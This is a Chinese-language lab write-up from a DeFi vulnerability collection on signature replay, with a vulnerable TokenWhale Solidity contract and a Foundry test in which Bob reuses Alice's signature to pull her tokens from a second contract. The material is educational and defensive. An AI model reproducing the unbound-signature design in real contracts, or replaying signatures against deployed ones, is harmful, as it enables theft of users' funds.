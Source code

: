 # 签名重放
[SignatureReplay.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplay.sol) 
 
**名称：** 签名重放漏洞  

**描述：**  
在这种情况下，Alice签署了一项交易，允许Bob将代币从Alice的账户转移到Bob 的账户。  

然后，Bob在多个合约（在本例中为 TokenWhale 和 SixEyeToken 合约）上重放此签名，  
每次都授权将代币从Alice的账户转移到他的账户。这是可能的，因为合约使用相同的方法来签署和验证交易，  
但是它们没有共享用于防止重放攻击的nonce。   

缺少针对签名重放攻击的保护，可以多次使用相同的签名来执行函数。  


**缓解建议：**   
可以通过在签名和验证过程中使用nonce（仅使用一次的数字）来防止重放攻击。  

**参考：**  
https://medium.com/cryptronics/signature-replay-vulnerabilities-in-smart-contracts-3b6f7596df57  
https://medium.com/cypher-core/replay-attack-vulnerability-in-ethereum-smart-contracts-introduced-by-transferproxy-124bf3694e25  


**TokenWhale合约：**  
```
contract TokenWhale is Test {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;
    mapping(address => uint256) nonces;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 2000;
        balanceOf[player] = 2000;
    }

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    function transferProxy(
        address _from,
        address _to,
        uint256 _value,
        uint256 _feeUgt,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public returns (bool) {
        uint256 nonce = nonces[_from];
        emit log_named_uint("nonce", nonce);
        bytes32 h = keccak256(
            abi.encodePacked(_from, _to, _value, _feeUgt, nonce)
        );
        if (_from != ecrecover(h, _v, _r, _s)) revert();

        if (
            balanceOf[_to] + _value < balanceOf[_to] ||
            balanceOf[msg.sender] + _feeUgt < balanceOf[msg.sender]
        ) revert();
        balanceOf[_to] += _value;

        balanceOf[msg.sender] += _feeUgt;

        balanceOf[_from] -= _value + _feeUgt;
        nonces[_from] = nonce + 1;
        return true;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/SignatureReplay.sol -vvvv 
```  
// 使用代币合约演示重放攻击的函数
function testSignatureReplay() public {
    // 记录合约的当前余额。
    emit log_named_uint(
        "Balance",
        TokenWhaleContract.balanceOf(address(this))
    );

    // 根据输入数据生成唯一的哈希值
    bytes32 hash = keccak256(
        abi.encodePacked(
            address(alice),
            address(bob),
            uint256(499),
            uint256(1),
            uint256(0)
        )
    );

    // 记录哈希值
    emit log_named_bytes32("hash", hash);

    // 使用地址的私钥对哈希进行签名
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

    // 记录签名组成部分
    emit log_named_uint("v", v);
    emit log_named_bytes32("r", r);
    emit log_named_bytes32("s", s);

    // 从签名中恢复签名者的地址
    address alice_address = ecrecover(hash, v, r, s);

    // 记录签名者的地址
    emit log_named_address("alice_address", alice_address);

    // 提示可能的攻击
    emit log_string(
        "If attacker got the Alice's signature, the attacker can replay this signature on the others contracts with same method."
    );

    // Bob变成了恶作剧者
    vm.startPrank(bob);

    // Bob使用Alice的签名将代币从Alice的账户转移到他自己的账户
    TokenWhaleContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // 记录Bob的新余额
    emit log_named_uint(
        "SET token balance of Bob",
        TokenWhaleContract.balanceOf(address(bob))
    );

    // 记录攻击的下一步
    emit log_string(
        "Try to replay to another contract with same signature"
    );

    //在重放之前，记录Bob在另一个代币中的余额。
    emit log_named_uint(
        "Before the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob使用Alice的签名在不同的合约中转移代币
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // 记录Bob在第二份合约中的新余额
    emit log_named_uint(
        "After the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob尝试在同一个合约上重放攻击，但由于随机数检查而失败
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    //  第二次尝试后记录Bob的余额
    emit log_named_uint(
        "After the second replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );
}
```  
**红框：** 签名重放。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F25146438-71a8-47bc-a7e7-a32ea63cf6b0%2FUntitled.png?table=block&id=19975d97-c976-4b16-9e9a-2cf903bf0b5f&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)